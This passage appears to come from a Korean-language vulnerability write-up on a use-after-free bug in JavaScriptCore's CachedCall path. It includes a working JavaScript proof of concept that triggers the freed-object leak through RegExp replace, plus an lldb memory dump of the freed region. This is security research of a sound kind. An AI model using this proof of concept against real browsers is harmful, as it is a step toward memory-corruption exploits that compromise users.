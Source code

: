 버그를 증명하기 위해 사용된 PoC 코드는 다음과 같습니다:
```js
function i_want_to_break_free() {
    var n = 0x10000;
    var m = 10;
    var regex = new RegExp("(ab)".repeat(n), "g"); // g flag to trigger the vulnerable path // (ab)(ab)(ab)(ab)(ab)...(ab)
    var part = "ab".repeat(n);                     // matches have to be at least size 2 to prevent interning
    var s = (part + "|").repeat(m);                // ab|ab|ab|ab|ab|ab|ab|....ab|ab|
    while (true) {
        var cnt = 0;
        var ary = [];
        s.replace(regex, function() {
            for (var i = 1; i < arguments.length-2; ++i) {
                if (typeof arguments[i] !== 'string') {
                    i_am_free = arguments[i];
                    print(arguments);
                    print(i);
                    throw "success";
                }
                ary[cnt++] = arguments[i];  // root everything to force GC
            }
            return "x";
        });
    }
}
try { i_want_to_break_free(); } catch (e) { }
print(typeof(i_am_free));  // will print "object"
```

중간에 추가한 `print()` 함수 때문인지 `typeof`로 `i_am_free`의 자료형을 출력하려고 할 때 **object** 대신 **string**이라고 뜨는 경우가 있습니다. 이는 GC가 발생하지 못한 경우의 수로 몇번 다시 실행해보면 GC가 발생해 CachedCall의 UAF 취약점이 트리거될 것입니다.

![GC or not GC](/assets/images/gc-or-not-gc.png)

lldb로 `i_am_free`가 위치한 메모리 영역을 찾아 들어가 값을 조회해 보면 다음과 같습니다:
```
(lldb) x/4gx 0x0000000115b83fc0 <--------------------- arguments[x-2]
0x115b83fc0: 0x0168060000000004 0x0000000200000001
0x115b83fd0: 0x000000010bbc50a0 0x00000000badbeef0
(lldb) x/4gx 0x0000000115b83fe0 <--------------------- arguments[x-1]
0x115b83fe0: 0x0168060000000004 0x0000000200000001
0x115b83ff0: 0x000000010bbc5080 0x00000000badbeef0
(lldb) x/4gx 0x0000000115b7c0a0 <--------------------- arguments[x] = i_am_free
0x115b7c0a0: 0x0000000000000000 0x00000000badbeef0
0x115b7c0b0: 0x00000000badbeef0 0x00000000badbeef0
(lldb) x/4gx 0x0000000115b7c0c0 <--------------------- arguments[x+1]
0x115b7c0c0: 0x0000000115b7c0a0 0x00000000badbeef0
0x115b7c0d0: 0x00000000badbeef0 0x00000000badbeef0
```